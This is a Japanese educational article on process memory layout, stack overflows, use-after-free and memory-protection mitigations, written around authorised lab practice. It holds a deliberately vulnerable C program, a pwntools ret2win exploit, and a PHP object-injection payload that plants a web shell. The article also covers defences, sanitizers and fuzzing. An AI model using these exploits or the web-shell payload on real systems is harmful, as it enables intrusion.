






## TL;DR

- プロセスのメモリ空間はテキスト・データ・BSS・ヒープ・スタックの5領域に分かれており、それぞれ役割と攻撃面が異なる。
- スタックバッファオーバーフローはリターンアドレスを上書きして制御フローを奪い、use-after-free は解放済みメモリへのアクセスで任意コード実行につながる。
- ASLR・Stack Canary・NX（DEP）・RELRO を組み合わせた多層防御が現代の標準だが、バイパス手法も存在するため原理の理解が不可欠だ。

---

## なぜ重要か

「バッファオーバーフロー」という言葉は聞いたことがあっても、「なぜ起きるのか」「なぜ任意コード実行になるのか」をメモリの構造から説明できる人は意外と少ない。

HTB の Pwn カテゴリや OffSec PEN-200 のバッファオーバーフロー演習で最初につまずくのも、ほぼ必ずこの「メモリモデルの理解不足」だ。スタックがどの方向に伸びるか、ヒープとスタックの違いは何か、リターンアドレスはスタックのどこにあるか——これを知らずに pwntools を動かしても、何をやっているか理解できないまま終わる。

<!-- 修正: 「Web エンジニアにも必須」の表現を弱める。PHP unserialize はデシリアライゼーション/オブジェクト注入の話であり、Node.js Buffer はC層のメモリ管理と関係するが、Cプロセスメモリモデルとは別階層のため -->
さらに Web の世界でも、PHP の `unserialize()` や Node.js の `Buffer.allocUnsafe()` のように、**メモリ由来のAPIや安全でないデシリアライゼーションが攻撃面になる**ケースがある。C レベルのメモリモデルとは別階層の話だが、根底にある「メモリ上のデータをどう扱うか」という思考は共通だ。

<!-- 修正: 2026年基準のトレンドとして C/C++ 資産・Rust 移行への言及を追加 -->
2026年現在、Linux カーネル・ブラウザ・IoT ファームウェアの大部分は依然として C/C++ で書かれており、メモリ安全性の問題は現役の攻撃対象だ。一方で Rust や Go といるメモリ安全言語への移行も加速しており、「なぜ移行が必要か」を理解するためにも本記事の知識は必須だ。

> ⚠️ **法的注意**: 本記事の攻撃手法はすべて **自分が管理するシステム**、または **規約・契約で明示的に許可された演習環境**（HTB / TryHackMe / 自宅 VM / Bug Bounty 対象スコープ内）でのみ実施してください。許可なく他者のシステムへ試みることは **不正アクセス禁止法（日本）** 違反となり、刑事罰の対象です。

---

## 仕組み

## Mermaid 図

挿入先: `## 仕組み`



挿入先: `## 攻撃フロー`




### プロセスのメモリマップ

Linux 上でプロセスが起動すると、仮想アドレス空間が以下のように分割される（x86-64 の典型的なレイアウト）。

<!-- 修正: メモリマップ図に共有ライブラリ・mmap・vDSO を追加（ret2libc/ASLR理解に必要） -->
```
高位アドレス (0xFFFF...)
┌─────────────────────────────┐
│         カーネル空間         │  ← ユーザーはアクセス不可
├─────────────────────────────┤
│      [vvar] / [vdso]        │  ← カーネル提供の高速システムコール
├─────────────────────────────┤
│          スタック            │  ← 下方向に伸びる ↓
│    (関数呼び出し・ローカル変数) │
├─────────────────────────────┤
│            ↓                │
│     [mmap / 共有ライブラリ]  │  ← libc.so, ld.so など（ASLR でランダム化）
│            ↑                │
├─────────────────────────────┤
│           ヒープ             │  ← 上方向に伸びる ↑
│     (動的確保: malloc/new)   │
├─────────────────────────────┤
│            BSS              │  ← 未初期化グローバル変数
├─────────────────────────────┤
│           データ             │  ← 初期化済みグローバル変数
├─────────────────────────────┤
│    テキスト（コード）         │  ← 実行可能な機械語（r-xp）
低位アドレス (0x0000...)
```



各領域の役割を把握することが、すべての攻撃手法を理解する出発点になる。

<!-- 修正: 仮想メモリとページ権限の説明を追加（抜け落ちていた重要概念） -->
### 仮想メモリとページ権限（r/w/x）

OS は物理メモリを **ページ**（通常 4KB）単位で管理し、各ページに `r`（読み取り）・`w`（書き込み）・`x`（実行）の権限を付与する。`/proc/<PID>/maps` で各領域の権限を確認できる。

```
7f8a00000000-7f8a00021000 r-xp  /lib/x86_64-linux-gnu/libc.so.6  ← 実行可能
7f8a00021000-7f8a00221000 ---p  (guard page)
7f8a00221000-7f8a00225000 r--p  /lib/x86_64-linux-gnu/libc.so.6  ← 読み取りのみ
7f8a00225000-7f8a00227000 rw-p  /lib/x86_64-linux-gnu/libc.so.6  ← 読み書き可
7ffcf3a00000-7ffcf3a21000 rw-p  [stack]                          ← 読み書き可（実行不可）
```

**W^X 原則**: 書き込み可（w）と実行可（x）を同時に許可しないことが現代のセキュリティ基本方針だ。NX/DEP はこの原則をハードウェア/OS レベルで強制する。

### テキスト領域（コードセグメント）

コンパイルされた機械語命令が格納される。ページ権限は **`r-xp`（読み取り・実行のみ、書き込み不可）**。

<!-- 修正: 「NX/DEP でテキスト領域の書き換えを緩和」は不正確。NX/DEP は主にデータ領域の実行防止。テキスト書き換えはページ権限・W^X が担う -->
テキスト領域はページ権限により書き込みが禁止されており、攻撃者が直接書き換えることは通常できない。コード注入攻撃（シェルコード）はスタック・ヒープなどのデータ領域にコードを置いて実行させる手法で、これを阻止するのが NX/DEP だ。

### データ・BSS 領域

- **データ**: 初期化済みのグローバル変数・静的変数（`static int x = 5;` など）
- **BSS**: 未初期化のグローバル変数（プログラム起動時にゼロ初期化される）

どちらもプログラムの開始から終了まで生存する。スタックやヒープと違い、確保・解放の概念がない。

### スタック — 攻撃面 ★★★

関数呼び出しのたびに **スタックフレーム** が積まれる。フレームには次の要素が並ぶ。

<!-- 修正: x86-64 System V では引数はレジスタ渡しが基本のため補足を追加 -->
```
高位アドレス
┌────────────────────────────┐
│  引数（7個目以降のみスタック）│  ← x86-64 SysV: 最初の6引数はレジスタ渡し
│  (RDI, RSI, RDX, RCX, R8, R9) ← ← 6つまではレジスタ
├────────────────────────────┤
│   リターンアドレス (RIP/EIP) │  ← ここを上書きすると制御フロー奪取！
├────────────────────────────┤
│    保存済みベースポインタ    │
├────────────────────────────┤
│    ローカル変数・バッファ    │  ← バッファはここに確保
低位アドレス                       スタックは下方向↓に伸びる
```

<!-- 修正: 「バッファへの書き込みは低位→高位方向に進む」は絶対規則ではないため表現を弱める -->
**重要**: スタックは高位→低位方向に伸びるが、典型的な C 配列では `buf[0]` から高位側へ連続して書かれる。そのため、バッファをあふれさせると隣接する **リターンアドレスを上書き** できる。これがスタックバッファオーバーフローの本質だ。

<!-- 修正: エンディアンの補足を追加（pwntools の p64() を使う理由に直結） -->
> **エンディアンと payload**: x86-64 はリトルエンディアン。`win()` のアドレスが `0x401152` の場合、メモリ上では `52 11 40 00 00 00 00 00` の順に並ぶ。pwntools の `p64(0x401152)` はこのリトルエンディアン変換を自動で行う。

### ヒープ — 攻撃面 ★★★

`malloc()` / `new` / `free()` で動的に管理されるメモリ領域。確保と解放のライフサイクルをプログラマが制御する。

ヒープ管理はアロケータ（glibc の ptmalloc2 など）が担い、確保したブロックはヘッダ情報（サイズ・フラグ）と隣接して配置される。

**use-after-free（UAF）**: `free()` した後もポインタを使い続けると、解放済みチャンクを別の用途で再利用されたとき、意図しないデータを読み書きできる。

<!-- 修正: heap spray をブラウザ文脈の注記として整理。現代的な tcache/fastbin/double free を追加 -->
**heap spray**: 大量の確保・解放を繰り返して特定のアドレスに意図したデータを配置するテクニック。主にブラウザ exploit で使われる手法だ。

**現代の glibc ヒープ（tcache / fastbin）**: glibc 2.26 以降では **tcache**（スレッドローカルキャッシュ）が導入された。`free()` した小さなチャンクは tcache に入り、次の `malloc()` で再利用される。**tcache poisoning** はこの fd ポインタを書き換えて任意アドレスの確保を誘発する現代的な heap exploit 手法だ。また glibc 2.32 以降では **Safe-Linking** が導入され、tcache/fastbin の fd ポインタが難読化されている。



### 現代の緩和機構

<!-- 修正: Safe-Linking / CET / Shadow Stack / PAC / MTE を発展項目として追加（2026年基準） -->
| 機構 | 効果 | バイパス例 |
|---|---|---|
| **ASLR** | スタック・ヒープ・ライブラリのアドレスをランダム化 | 情報リーク + ret2libc |
| **Stack Canary** | リターンアドレス前に乱数を置いて改ざん検知 | Canary リーク + 上書き |
| **NX / DEP** | スタック・ヒープを実行不可にしてシェルコード阻止 | ROP (Return Oriented Programming) |
| **RELRO** | GOT 領域を読み取り専用にして上書きを防ぐ | Partial RELRO は Full より弱い |
| **PIE** | テキスト領域もランダム化 | テキスト内アドレスのリークが必要 |
| **Safe-Linking** *(発展)* | tcache/fastbin fd ポインタを難読化 | ヒープアドレスリークで解除可能 |
| **CET / Shadow Stack** *(発展)* | ハードウェアレベルでリターンアドレスを保護 | 対応 CPU が必要（Intel 第10世代以降） |
| **PAC / MTE** *(発展)* | ARM: ポインタ認証 / メモリタグで UAF 検出 | ARM64 環境（Apple Silicon, Android） |

---

## 脆弱なコード例（C / PHP / Node.js / Python）

<!-- 修正: 見出しを「3言語」から「C / PHP / Node.js / Python」に変更（実態に合わせる） -->

### C — スタックバッファオーバーフロー（概念の原点）

<!-- 修正1: #include <stdlib.h> を追加（system() に必要）
     修正2: コンパイルオプションから -z execstack を削除（ret2win には不要）
     修正3: argv 経由の 4バイトアドレス例を削除し、「nm で win() アドレスを取得して p64() で送る」説明に統一
     修正4: main を stdin 読み取り型に変更して pwntools の sendline と噛み合うようにする -->
```c
// ❌ 脆弱なコード — スタックBOFの古典的パターン（stdin 読み取り型）
// コンパイル: gcc -o vuln vuln.c -fno-stack-protector -no-pie
// ※ ret2win 例では -z execstack は不要（シェルコード練習時のみ使用）
#include <stdio.h>
#include <string.h>
#include <stdlib.h>  // <!-- 修正: system() に必要 -->

void win() {
    // 攻撃者が実行させたい関数
    printf("shell 奪取成功！\n");
    system("/bin/sh");
}

void vulnerable() {
    char buf[64];  // スタック上に 64 バイトのバッファを確保
    // ❌ gets は境界チェックなし。64 バイト超えを入力するとリターンアドレスまで上書き
    gets(buf);     // stdin から読み取り（pwntools の sendline と対応）
    printf("入力: %s\n", buf);
}

int main() {
    vulnerable();
    return 0;
}
// 攻撃手順:
// 1. nm ./vuln | grep win  → win() のアドレスを確認（例: 0000000000401152）
// 2. pwntools で p64(win_addr) をペイロードに組み込む（後述の exploit.py 参照）
// 3. 64bit では RIP は 8バイト。p64() が正しいリトルエンディアン変換を行う
```

---

<!-- 修正: PHP 見出しを「PHP — unserialize() による PHP Object Injection」に変更 -->
### PHP — unserialize() による PHP Object Injection

```php
<?php
// ❌ 脆弱なコード — 信頼できない入力を unserialize() に渡す

class FileLogger {
    public string $logFile = '/var/log/app.log';
    <!-- 修正: コメントの「content でWebShell設置」とコードの不一致を解消。
              __destruct が実際に書き込む $this->message を追加 -->
    public string $message = "Session ended\n";

    // デストラクタ: オブジェクトが GC で回収されるとき自動呼び出し
    public function __destruct() {
        // ❌ 問題: logFile と message が攻撃者に制御されると任意ファイルへの任意書き込みが可能
        file_put_contents($this->logFile, $this->message, FILE_APPEND);
    }
}

class Config {
    public string $dbHost = 'localhost';
    public string $dbPass = 'secret';
}

// ❌ Cookie やリクエストパラメータの値を直接 unserialize
$data = base64_decode($_COOKIE['session'] ?? '');
$obj  = unserialize($data);  // 攻撃者が細工したシリアル化データを渡せる

// 攻撃シナリオ（PHP Object Injection）:
// 1. FileLogger オブジェクトを細工して logFile と message を上書き
// 2. __destruct が呼ばれると任意パスに任意内容を書き込める → WebShell 設置
//
// 攻撃ペイロード生成（PHP）:
// $evil = new FileLogger();
// $evil->logFile    = '/var/www/html/shell.php';
// $evil->message    = '<?php system($_GET["cmd"]); ?>';
// echo base64_encode(serialize($evil));
?>
```

---

### Node.js — Buffer.allocUnsafe() による未初期化メモリ露出

```javascript
// ❌ 脆弱なコード — allocUnsafe で未初期化メモリを HTTP レスポンスに含める

const http = require('http');

http.createServer((req, res) => {
    const url = new URL(req.url, 'http://localhost');
    <!-- 修正: parseInt の問題点を詳細化。NaN・負数・上限超過の検証欠如を明示 -->
    const size = parseInt(url.searchParams.get('size') || '64');
    // ❌ 問題1: parseInt("abc") = NaN、負数、極端な値も通過する
    // ❌ 問題2: NaN を渡すと Buffer.allocUnsafe(NaN) → 0バイト Buffer または例外
    // ❌ 問題3: 上限チェックがないため巨大サイズで DoS にもなりうる
    // Number.isSafeInteger(size) && size > 0 の検証が必要

    // ❌ 問題4: Buffer.allocUnsafe はゼロ埋めしない
    // Node.js のヒープ上にある前の処理で使ったメモリが入る可能性がある
    <!-- 修正: 「秘密情報が漏洩する」を断定から「可能性がある」に弱める（環境依存のため） -->
    // ※ 実際の漏洩内容は Node.js バージョン・実行条件・Buffer pool の状態に依存する
    const buf = Buffer.allocUnsafe(size);

    res.writeHead(200, { 'Content-Type': 'application/octet-stream' });
    res.end(buf);  // 未初期化のヒープデータをそのまま送信
}).listen(3000);

// 攻撃: curl http://target:3000/?size=65536
// → ヒープ上の残留データが漏洩する可能性（再現性は実行環境に依存）
```

<!-- 修正: Python ctypes 例を「高水準言語でもC拡張では未初期化メモリに触れられる」という趣旨の短縮版に変更 -->
```python
# Python でも C 拡張 / ctypes 経由では未初期化メモリを扱える（概念例）
import ctypes

# 高水準言語でも低レイヤーAPIを誤用すると C と同じ問題が起きる
libc = ctypes.CDLL("libc.so.6")
libc.malloc.restype = ctypes.c_void_p

ptr = libc.malloc(64)  # ゼロ埋めなし — ヒープの残留データが入る可能性
# ← ここから読んだデータを外部に送ると情報漏洩リスク

libc.free(ptr)  # 解放を忘れると UAF / メモリリークの原因になる
# 通常の Python コードでは ctypes.malloc を直接呼ぶ必要はない。
# 標準ライブラリ・bytearray・bytes を使うこと。
```

---

## 攻撃手順（合法ラボ環境での実演）

> 以下は **HTB / TryHackMe / 自宅 VM** など許可された環境での手順です。

### ステップ 1: バイナリのメモリ保護状況を確認する

<!-- 修正: checksec コマンドの代替形式を追加（PATH 問題への対応） -->
```bash
# checksec: 対象バイナリの緩和機構を一覧表示
pip install pwntools

# コマンドが見つからない場合は以下のいずれかを試す
checksec --file=./vuln      # pwntools インストール時の形式
pwn checksec ./vuln         # pwn サブコマンド形式

# 出力例:
# Arch:     amd64-64-little
# RELRO:    Partial RELRO
# Stack:    No canary found    ← Canary なし → BOF 可能
# NX:       NX disabled        ← 実行可能スタック → シェルコード注入可
# PIE:      No PIE             ← アドレス固定 → 固定アドレスで攻撃可

<!-- 修正: readelf の .stack は ELF セクションとして通常見えないため説明を分離 -->
# ELF セクション（.text/.data/.bss）の確認 — スタックはここには現れない
readelf -S ./vuln | grep -E "\.text|\.bss|\.data"

# スタックは実行時の仮想メモリ領域 → /proc/<PID>/maps で [stack] を確認する
# （対象プロセスを起動してから別ターミナルで確認）
./vuln &                    # バックグラウンドで起動
PID=$!
cat /proc/$PID/maps | grep -E "stack|heap|libc"
```

### ステップ 2: スタックオフセットを特定する（パターン生成）

<!-- 修正: cyclic(200) の出力が bytes 形式になる問題を修正。stdout.buffer.write を使う -->
```bash
# pwntools で cyclic パターンを生成してオフセットを特定
# bytes 形式で stdout に書き出す（b'...' 表示を避ける）
python3 -c 'from pwn import *; import sys; sys.stdout.buffer.write(cyclic(200))' > pattern.bin

# GDB + pwndbg でクラッシュ時の RIP を確認
gdb -q ./vuln
(gdb) run < pattern.bin
# → SIGSEGV 発生、RIP の値を記録（例: 0x6161616b61616169）

# pwndbg の cyclic コマンドで直接オフセット取得
# pwndbg> cyclic -l 0x6161616b   ← クラッシュ時の RIP 下位 4バイト

# Python でオフセットを計算
<!-- 修正: cyclic_find の 32bit/64bit 混在を整理。p64 の下位4バイトを使う方法に統一 -->
python3 << 'EOF'
from pwn import *
# 64bit: RIP に入った値（例）を p64 でパックして先頭4バイトで検索
rip_value = 0x6161616b61616169  # GDB で確認した RIP の値
offset = cyclic_find(p64(rip_value)[:4])
print(f"オフセット: {offset}")  # 例: 72
EOF
```

```bash
# GDB + pwndbg でスタックを直接観察
gdb -q ./vuln
(gdb) run < pattern.bin
(gdb) info frame          # スタックフレームの詳細
(gdb) x/20gx $rsp         # RSP から 20 ワード分を 16 進表示
(gdb) info registers      # 全レジスタ値を表示
```

### ステップ 3: スタック BOF エクスプロイトの骨格（pwntools）

<!-- 修正: vuln を stdin 型に変更したため、exploit を process('./vuln') + sendline に統一。
         sendlineafter(b'使い方:', ...) は argv 不足時にしか表示されないため削除 -->
```python
# exploit.py — ret2win の基本スケルトン（ラボ環境のみ）
from pwn import *

# ターゲット設定
elf = ELF('./vuln')        # バイナリ解析
context.binary = elf
context.log_level = 'info'

# win() のアドレスを取得（PIE 無効の場合、アドレスは固定）
# nm ./vuln | grep win  でも確認できる
win_addr = elf.symbols['win']
log.info(f"win() アドレス: {hex(win_addr)}")

# オフセット確定（ステップ2で特定済み）
offset = 72

# ペイロード構築
# buf(64) + saved RBP(8) = 72 バイトでパディング、次の 8 バイトが RIP
payload  = b'A' * offset    # バッファ + saved RBP を埋める
payload += p64(win_addr)    # p64() がリトルエンディアンに変換して RIP を上書き

# stdin 型の vuln に送信
io = process('./vuln')      # ローカル実行
# io = remote('target.lab', 4444)  # リモート接続
io.sendline(payload)
io.interactive()  # シェルが起動したら対話モードへ
```

### ステップ 4: ヒープ構造を観察する（use-after-free 理解）

<!-- 修正: UAF の実行結果が環境依存であることを明記 -->
```bash
# Valgrind と ASan で UAF を検出する
cat > uaf_demo.c << 'EOF'
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main() {
    char *ptr = malloc(64);
    strcpy(ptr, "secret_password");
    printf("確保後: %s\n", ptr);

    free(ptr);  // 解放

    // ❌ use-after-free: 解放済みポインタへのアクセス（未定義動作）
    // 結果は環境依存: クラッシュ / 残留データ表示 / 別データ表示 のどれもありうる
    printf("解放後（UAF）: %s\n", ptr);

    // 同サイズで再確保すると前のチャンクが再利用される（tcache の動作）
    char *ptr2 = malloc(64);
    strcpy(ptr2, "ATTACKER_DATA");
    printf("ptr（古い）経由: %s\n", ptr);  // → ATTACKER_DATA が見える場合がある

    free(ptr2);
    return 0;
}
EOF

# Valgrind で UAF を検出
gcc -o uaf_demo uaf_demo.c -g
valgrind --leak-check=full ./uaf_demo

# AddressSanitizer で UAF を検出（より詳細なスタックトレース付き）
gcc -o uaf_asan uaf_demo.c -fsanitize=address,undefined -g
./uaf_asan
# → heap-use-after-free エラーと発生箇所のスタックトレースを表示
```


---

## 防御策

### スタックBOF への対策

#### Stack Canary（コンパイラレベル）

```bash
# ✅ Stack Canary を有効にしてコンパイル（GCC デフォルト）
gcc -o safe safe.c -fstack-protector-strong

# Canary の仕組み:
# 関数プロローグ: スタックに乱数（Canary 値）を書き込む
# 関数エピローグ: 関数終了前に Canary が変化していないか確認
# → 変化していれば __stack_chk_fail() でプロセスを即終了
```

#### 安全な文字列関数への置き換え（C）

<!-- 修正: strncpy は誤用されやすいため注意付きにし、主例を snprintf に変更 -->
```c
// ✅ 安全なコード — 境界チェックあり関数を使う
#include <stdio.h>
#include <string.h>

void safe_function(const char *input) {
    char buf[64];

    // ✅ 推奨: snprintf を主に使う（NULL 終端を自動で保証）
    snprintf(buf, sizeof(buf), "%s", input);

    // ⚠️ strncpy は NUL 終端を保証しない場合があるため注意が必要
    // 使う場合は必ず手動で終端を付ける
    // strncpy(buf, input, sizeof(buf) - 1);
    // buf[sizeof(buf) - 1] = '\0';

    printf("入力: %s\n", buf);
}
```

#### PHP unserialize() の根本対策

<!-- 修正: $data と $serialized の変数名を分離（json_decode 結果を unserialize に渡す混乱を解消）。
         allowed_classes は「最終手段」であり根本対策は JSON + HMAC と明記 -->
```php
<?php
// ✅ 根本対策: 安全なデータ交換には JSON を使う（OWASP 推奨）
$jsonData = json_decode(base64_decode($_COOKIE['session'] ?? ''), true);

// ✅ どうしても unserialize が必要な場合（最終手段）:
// allowed_classes で許可クラスを制限する（PHP 7.0+）
// ※ PHP マニュアルも「信頼できない入力を unserialize() に渡すな」と警告している
$serialized = $_COOKIE['serialized_data'] ?? '';  // 変数名を分離
$obj = unserialize($serialized, ['allowed_classes' => ['Config']]);

// ✅ さらに安全: HMAC で署名検証してから unserialize
// → 改ざんされたペイロードを処理する前に検証できる
function safe_unserialize(string $raw, string $secret): mixed {
    [$hmac, $payload] = explode(':', $raw, 2) + ['', ''];
    if (!hash_equals(hash_hmac('sha256', $payload, $secret), $hmac)) {
        throw new RuntimeException('署名検証失敗');
    }
    return unserialize(base64_decode($payload), ['allowed_classes' => false]);
}
?>
```

#### Node.js Buffer の安全な使い方

```javascript
// ✅ 安全なコード — Buffer.alloc でゼロ初期化
const http = require('http');

const MAX_SIZE = 4096;  // 上限を明示

http.createServer((req, res) => {
    const url   = new URL(req.url, 'http://localhost');
    const raw   = parseInt(url.searchParams.get('size') || '64');

    // ✅ NaN / 負数 / 上限超過 / 非安全整数を一括で排除
    if (!Number.isFinite(raw) || !Number.isSafeInteger(raw) || raw <= 0 || raw > MAX_SIZE) {
        res.writeHead(400);
        res.end('不正なサイズ');
        return;
    }

    // ✅ Buffer.alloc: ゼロ初期化（前の処理の残留データが入らない）
    const buf = Buffer.alloc(raw);

    res.writeHead(200, { 'Content-Type': 'application/octet-stream' });
    res.end(buf);
}).listen(3000);
```

#### use-after-free への対策

<!-- 修正: free後NULL化は万能ではないため所有権設計・ASan・Rustも追記 -->
```c
// ✅ free() 後すぐポインタを NULL 化（同一ポインタの二重アクセスを防ぐ）
// ※ エイリアスされた別ポインタが残る場合には防げないため、所有権設計も必要
free(ptr);
ptr = NULL;  // 以降の ptr 経由アクセスは NULL 参照でクラッシュ → 即検出

// ✅ 開発時は AddressSanitizer + UndefinedBehaviorSanitizer で自動検出
// gcc -fsanitize=address,undefined -g

// ✅ 2026年のベストプラクティス:
// - C++: スマートポインタ（unique_ptr, shared_ptr）で所有権を明示
// - 新規実装では Rust / Go 等のメモリ安全言語を検討する
// - fuzzing（AFL++ + ASan）で UAF を自動発見する
```

#### Sanitizers / Fuzzing による自動発見

<!-- 修正: ASan/UBSan/AFL++ を防御・検出の実装可能策として追加（抜け落ちていた重要概念） -->
```bash
# ✅ AddressSanitizer + UndefinedBehaviorSanitizer でビルド（開発・テスト時）
gcc -fsanitize=address,undefined -fno-omit-frame-pointer -g -O1 -o app_asan app.c
./app_asan  # バッファオーバーフロー・UAF・型違反を即座に検出

# ✅ AFL++ で自動ファジング（脆弱なコードを自動発見）
# sudo apt install afl++
afl-gcc -o vuln_fuzz vuln.c   # AFL instrumentation 付きコンパイル
mkdir -p in out
echo "AAAA" > in/seed
